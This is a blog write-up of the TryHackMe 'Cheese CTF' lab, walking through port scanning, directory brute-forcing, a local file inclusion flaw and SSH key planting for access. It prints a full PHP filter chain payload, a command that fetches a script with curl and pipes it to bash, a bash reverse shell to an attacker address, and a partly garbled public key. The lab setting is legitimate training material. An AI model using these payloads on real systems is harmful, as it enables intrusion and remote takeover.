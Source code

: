 ```yaml
---
layout: post
title:  "TryHackMe: Cheese CTF"
description: Inspired by the great cheese talk of THM!
date:   2024-08-10 22:53:59 +0100
categories: jekyll update
---
```


# Cheese CTF:

```sh
export IP= M-ip
```
# Enumeration:

```sh
sudo nmap -sS -sC -sV -vv $IP
```
It's clear that the machine is using port spoofing to create decoy services by opening multiple fake ports. This makes it look like various services are running, which is intended to confuse us and make it harder to identify which port is legitimate.

<details>
  <summary><i>Nmap Discoverd Ports</i></summary>
  <pre>
Discovered open port 143/tcp on 10.10.10.247
Discovered open port 139/tcp on 10.10.10.247
Discovered open port 111/tcp on 10.10.10.247
Discovered open port 995/tcp on 10.10.10.247
Discovered open port 53/tcp on 10.10.10.247
Discovered open port 3389/tcp on 10.10.10.247
Discovered open port 554/tcp on 10.10.10.247
Discovered open port 5900/tcp on 10.10.10.247
Discovered open port 445/tcp on 10.10.10.247
Discovered open port 1720/tcp on 10.10.10.247
Discovered open port 110/tcp on 10.10.10.247
Discovered open port 587/tcp on 10.10.10.247
Discovered open port 8080/tcp on 10.10.10.247
Discovered open port 21/tcp on 10.10.10.247
Discovered open port 22/tcp on 10.10.10.247
Discovered open port 1723/tcp on 10.10.10.247
Discovered open port 80/tcp on 10.10.10.247
Discovered open port 1025/tcp on 10.10.10.247
Discovered open port 993/tcp on 10.10.10.247
Discovered open port 3306/tcp on 10.10.10.247
Discovered open port 5544/tcp on 10.10.10.247
Discovered open port 2222/tcp on 10.10.10.247
Discovered open port 2007/tcp on 10.10.10.247
Discovered open port 3322/tcp on 10.10.10.247
Discovered open port 7402/tcp on 10.10.10.247
Discovered open port 1078/tcp on 10.10.10.247
Discovered open port 3013/tcp on 10.10.10.247
Discovered open port 545/tcp on 10.10.10.247
Discovered open port 8093/tcp on 10.10.10.247
Discovered open port 8010/tcp on 10.10.10.247
Discovered open port 60020/tcp on 10.10.10.247
Discovered open port 9003/tcp on 10.10.10.247
Discovered open port 25/tcp on 10.10.10.247
Discovered open port 6881/tcp on 10.10.10.247
Discovered open port 32775/tcp on 10.10.10.247
Discovered open port 1169/tcp on 10.10.10.247
Discovered open port 5989/tcp on 10.10.10.247
Discovered open port 3005/tcp on 10.10.10.247
Discovered open port 8042/tcp on 10.10.10.247
Discovered open port 49159/tcp on 10.10.10.247
Discovered open port 2135/tcp on 10.10.10.247
Discovered open port 11110/tcp on 10.10.10.247
Discovered open port 8701/tcp on 10.10.10.247
Discovered open port 8193/tcp on 10.10.10.247
Discovered open port 2394/tcp on 10.10.10.247
Discovered open port 5631/tcp on 10.10.10.247
Discovered open port 199/tcp on 10.10.10.247
Discovered open port 90/tcp on 10.10.10.247
Discovered open port 4445/tcp on 10.10.10.247
Discovered open port 1032/tcp on 10.10.10.247
Discovered open port 1009/tcp on 10.10.10.247
Discovered open port 25734/tcp on 10.10.10.247
Discovered open port 5850/tcp on 10.10.10.247
Discovered open port 1812/tcp on 10.10.10.247
Discovered open port 443/tcp on 10.10.10.247
Discovered open port 1030/tcp on 10.10.10.247
Discovered open port 3527/tcp on 10.10.10.247
Discovered open port 2033/tcp on 10.10.10.247
Discovered open port 1152/tcp on 10.10.10.247
Discovered open port 23/tcp on 10.10.10.247
Discovered open port 8083/tcp on 10.10.10.247
Discovered open port 8888/tcp on 10.10.10.247
Discovered open port 113/tcp on 10.10.10.247
Discovered open port 135/tcp on 10.10.10.247
Discovered open port 256/tcp on 10.10.10.247
Discovered open port 1334/tcp on 10.10.10.247
Discovered open port 1192/tcp on 10.10.10.247
Discovered open port 1322/tcp on 10.10.10.247
Discovered open port 32772/tcp on 10.10.10.247
Discovered open port 3052/tcp on 10.10.10.247
Discovered open port 32781/tcp on 10.10.10.247
Discovered open port 27356/tcp on 10.10.10.247
Discovered open port 5414/tcp on 10.10.10.247
Discovered open port 19350/tcp on 10.10.10.247
Discovered open port 808/tcp on 10.10.10.247
Discovered open port 1687/tcp on 10.10.10.247
Discovered open port 9575/tcp on 10.10.10.247
Discovered open port 2035/tcp on 10.10.10.247
Discovered open port 6009/tcp on 10.10.10.247
Discovered open port 50001/tcp on 10.10.10.247
Discovered open port 2909/tcp on 10.10.10.247
Discovered open port 801/tcp on 10.10.10.247
Discovered open port 10617/tcp on 10.10.10.247
Discovered open port 1875/tcp on 10.10.10.247
Discovered open port 38292/tcp on 10.10.10.247
Discovered open port 514/tcp on 10.10.10.247
Discovered open port 2701/tcp on 10.10.10.247
Discovered open port 7999/tcp on 10.10.10.247
Discovered open port 22939/tcp on 10.10.10.247
Discovered open port 1033/tcp on 10.10.10.247
Discovered open port 8008/tcp on 10.10.10.247
Discovered open port 1198/tcp on 10.10.10.247
Discovered open port 2381/tcp on 10.10.10.247
Discovered open port 44442/tcp on 10.10.10.247
Discovered open port 50002/tcp on 10.10.10.247
Discovered open port 3914/tcp on 10.10.10.247
Discovered open port 5225/tcp on 10.10.10.247
Discovered open port 5800/tcp on 10.10.10.247
Discovered open port 2008/tcp on 10.10.10.247
Discovered open port 5862/tcp on 10.10.10.247
Discovered open port 2009/tcp on 10.10.10.247
Discovered open port 8400/tcp on 10.10.10.247
Discovered open port 5033/tcp on 10.10.10.247
Discovered open port 2910/tcp on 10.10.10.247
Discovered open port 10004/tcp on 10.10.10.247
Discovered open port 2260/tcp on 10.10.10.247
Discovered open port 990/tcp on 10.10.10.247
Discovered open port 8085/tcp on 10.10.10.247
Discovered open port 777/tcp on 10.10.10.247
Discovered open port 37/tcp on 10.10.10.247
Discovered open port 8086/tcp on 10.10.10.247
Discovered open port 9898/tcp on 10.10.10.247
Discovered open port 3889/tcp on 10.10.10.247
Discovered open port 616/tcp on 10.10.10.247
Discovered open port 1096/tcp on 10.10.10.247
Discovered open port 7443/tcp on 10.10.10.247
Discovered open port 24/tcp on 10.10.10.247
Discovered open port 6156/tcp on 10.10.10.247
Discovered open port 9080/tcp on 10.10.10.247
Discovered open port 1296/tcp on 10.10.10.247
Discovered open port 2100/tcp on 10.10.10.247
Discovered open port 2607/tcp on 10.10.10.247
Discovered open port 1038/tcp on 10.10.10.247
Discovered open port 1174/tcp on 10.10.10.247
Discovered open port 42/tcp on 10.10.10.247
Discovered open port 2045/tcp on 10.10.10.247
Discovered open port 1783/tcp on 10.10.10.247
</pre>
</details>

# Directory bruteforcing:


```sh
gobuster dir --url http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```

```sh
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1759]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.247/images/]
/login.php            (Status: 200) [Size: 834]
/users.html           (Status: 200) [Size: 377]
/messages.html        (Status: 200) [Size: 448]
/orders.html          (Status: 200) [Size: 380]
```

we found that the /messages.html contain 

![Screenshot_9](https://github.com/user-attachments/assets/554342de-9602-4fa1-98f5-ae13da327c3d)

we got a Local File Inclusion (LFI) on /secret-script.php?file=php://filter/resource=/etc/passwd  

PHP applications that allow user input to dictate file handling without proper validation.

![Screenshot_1](https://github.com/user-attachments/assets/3ec570d3-e484-4258-be23-cc2f3683be2b)


# initial access : 

I used php filter chain generator . 

https://github.com/synacktiv/php_filter_chain_generator


```sh
echo "bash -i >& /dev/tcp/10.9.1.54/4444 0>&1" > shell
```
<?= ... ?>: This is PHP's shorthand for <?php echo ... ?>, which means it will output or "echo" whatever is inside the tags.

```sh
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.9.1.54/shell|bash` ?>'
```

<details>
  <summary><i>PHP filter chain </i></summary>
  <pre>
+] The following gadget chain will generate the following code : <?= `curl -s -L 10.9.1.54/shell|bash` ?> (base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjkuMS41NC9yZXZzaGVsbGx8YmFzaGAgPz4)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
  </pre>
</details>

After we apply the PHP filter chain to the vulnerable Local File Inclusion (LFI), the reverse shell script will be downloaded to the victim machine and executed. This happens by using the curl command to fetch the shell script from our remote server, and then piping it directly into Bash for execution, giving us remote access to the target system.

```sh
Attacker Machine 

sudo python3 -m http.server 80
```
```sh
Attacker Machine

nc -lvnp 4444
```

```sh
http://10.10.237.45/secret-script.php?file=PHP-FILTER-CHAIN
```

![Screenshot_2](https://github.com/user-attachments/assets/b8796269-e663-4402-8c9b-cce01cc4b6c3)


# Privilege escalation:

After further enumeration, I discovered that I have write access to the authorized_keys file in the .ssh directory.

I generated my id_rsa.pub key and added it to the authorized_keys file on the victim machine.

```sh
Attacker Machine

ssh-keygen -t rsa

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0O0JSsJWhGHQDI1wEqoTZapMiec+9x/FzqM2Ys2+9o8U1RQEp6zHWMVzjGDFSGDSJGDJLKQSJKCJLQKb5iA+mZSagNEHIXn906gQW2/z3hpojwsDTLiEzdEPh+66q28LHFL0FuUmNvslkjmlkcdnhCKUklmdjsq?XCLMW?QLKSFJKDBSJKBdnszfjheafhjvdxqhcvbqvcygfavguvcshjwbcnsbhfsfsojfdsE7NCxFoKcl9MeMyNYPZB4WzRjXStQfF9XyuvhrI+C6VLoWiL11N2owozGhssA/1/hpEjDWJwMe0/7QcYYjTJ2IOJFDSKLNFSDHFDFSDlxWv/zINKv5EttAFyrTtO2pydh3wd5GaC8se0= kali@attacker_machine
```
```sh
Victim Machine

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0O0JSsJWhGHQDI1wEqoTZapMiec+9x/FzqM2Ys2+9o8U1RQEp6zHWMVzjGDFSGDSJGDJLKQSJKCJLQKb5iA+mZSagNEHIXn906gQW2/z3hpojwsDTLiEzdEPh+66q28LHFL0FuUmNvslkjmlkcdnhCKUklmdjsq?XCLMW?QLKSFJKDBSJKBdnszfjheafhjvdxqhcvbqvcygfavguvcshjwbcnsbhfsfsojfdsE7NCxFoKcl9MeMyNYPZB4WzRjXStQfF9XyuvhrI+C6VLoWiL11N2owozGhssA/1/hpEjDWJwMe0/7QcYYjTJ2IOJFDSKLNFSDHFDFSDlxWv/zINKv5EttAFyrTtO2pydh3wd5GaC8se0= kali@attacker_machine" > authorized_keys
```

I changed the permissions of the id_rsa private key to ensure it's only readable and writable by me using chmod 600. After that, I used ssh -i id_rsa comte@10.10.122.229 to log into the remote machine as the user comte, authenticating with my private key.

```sh
Attacker Machine

chmod 600 id_rsa

ssh -i id_rsa  comte@10.10.122.229
```

![Screenshot_3](https://github.com/user-attachments/assets/2d798fae-caf9-4243-b251-08a218e826f7)

